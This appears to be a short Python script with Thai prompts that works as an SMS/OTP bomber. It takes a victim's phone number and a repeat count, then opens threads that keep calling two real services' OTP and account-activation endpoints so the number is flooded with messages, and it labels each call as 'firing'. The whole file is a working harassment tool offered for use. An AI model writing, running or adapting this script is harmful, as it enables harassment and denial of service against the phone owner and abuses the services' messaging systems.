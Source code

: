 import requests
import os
import time
import threading
from threading import Thread
os.system("clear")
print("")
print("BY:Yuttana Ngonklang")
print("")
phone = input("เบอร์ : ")
num = int(input("จำนวน : "))
print("")

def test(): 
	requests.post("https://api.true-shopping.com/customer/api/request-activate/mobile_no", data={"username": phone})
	print("กําลังยิง")
	
def test2():
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
	print("กําลังยิง")
	
	
for i in range(num):
	time.sleep(1)
	threading.Thread(target=test).start()
	threading.Thread(target=test2).start()
